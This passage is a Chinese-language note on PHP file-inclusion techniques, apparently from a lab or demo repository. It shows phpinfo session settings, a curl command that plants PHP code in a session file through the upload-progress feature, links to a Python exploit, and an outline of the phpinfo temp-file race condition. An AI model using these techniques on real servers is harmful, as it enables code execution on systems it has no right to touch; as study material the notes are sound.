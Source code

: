 phpinfo

| Directive                       | Local Value                 | Master Value                |
| ------------------------------- | --------------------------- | --------------------------- |
| session.upload_progress.cleanup | Off                         | Off                         |
| session.upload_progress.enabled | On                          | On                          |
| session.use_strict_mode         | 0                           | 0                           |
| session.save_path               | /var/lib/php/sessions       | /var/lib/php/sessions       |
| session.upload_progress.name    | PHP_SESSION_UPLOAD_PROGRESS | PHP_SESSI0N_UPLOAD_PROGRESS |
| session.upload_progress.prefix  | upload_progress_            | upload_progress_            |



```shell
curl -F "PHP_SESSION_UPLOAD_PROGRESS=aaa" -F '<?php phpinfo();?>=@evil.php'  http://127.0.0.1:12345/phpinfo.php --cookie "PHPSESSID=shell"
```

### exp

#### 用 python 写的 exp：

[session upload_progress 文件包含 直接包含 exp python](https://github.com/1nhann/FileUpload_LFI_demo/blob/master/session_not_clean_lfi/exp/exp.py)







## [phpinfo 临时文件包含 条件竞争](https://github.com/1nhann/FileUpload_LFI_demo/tree/master/iphpinfo_lfi)

参考：https://github.com/vulhub/vulhub/tree/master/php/inclusion

* phpinfo页面会将当前请求上下文中所有变量都打印出来
* 在 php 还没有将所有信息输出之前，临时文件不会被删除

考虑在 `$_FILES` 后面的内容中填充垃圾信息，使得 php 输出所有信息的时间尽量延长
